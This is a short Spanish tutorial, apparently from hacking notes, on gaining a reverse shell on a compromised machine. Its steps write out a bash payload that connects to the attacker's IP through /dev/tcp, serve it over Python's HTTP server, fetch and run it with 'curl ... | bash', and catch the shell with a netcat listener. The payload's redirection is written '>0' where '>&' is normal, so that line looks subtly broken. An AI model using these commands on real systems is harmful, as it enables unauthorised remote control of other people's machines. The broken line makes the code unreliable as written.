 <h1>Shell Reverse con Python</h1>

1. **Obtención de ejecución remota de comandos:** Este paso implica explotar una vulnerabilidad para obtener acceso remoto al sistema objetivo.

2. **Creación del archivo index.html:** Después de obtener acceso remoto al sistema, creas un archivo llamado `index.html` con el siguiente código:

```
#! /bin/bash

bash -i >0 /dev/tcp/<mi ip(del atacante)>/4444 0>&1
```
Este comando crea un archivo index.html con un script de bash que establece una conexión de "reverse shell" hacia tu máquina atacante en el puerto 4444.

3. **Inicio del servidor HTTP:** Para iniciar un servidor HTTP en tu máquina atacante, puedes usar el siguiente comando de Python:

`python -m http.server 80`

Esto iniciará un servidor HTTP en el puerto 80 de tu máquina, que servirá el archivo index.html al sistema comprometido.

4. **Ejecución del comando curl desde el sistema comprometido:** Desde el sistema comprometido, ejecutas el siguiente comando curl para descargar y ejecutar el archivo index.html:

```
curl <mi_ip_del_atacante>:80/index.html | bash
```

Esto descarga el archivo index.html desde tu máquina atacante y lo pasa al comando bash para su ejecución, lo que establecerá la conexión de "reverse shell".

5. **Puesta en escucha con Netcat:** Finalmente, en otra terminal en tu máquina atacante, ejecutas el siguiente comando de Netcat para poner en escucha en el puerto 4444:

```
sudo nc -nlvp 4444
```

Esto hará que Netcat esté en espera de una conexión entrante en el puerto 4444, que será utilizada por el sistema comprometido para establecer la conexión de "reverse shell".

Y listo, con estos pasos debemos tener una reverse shell, ahora sería recomendable hacer un tratamiento de la TTY.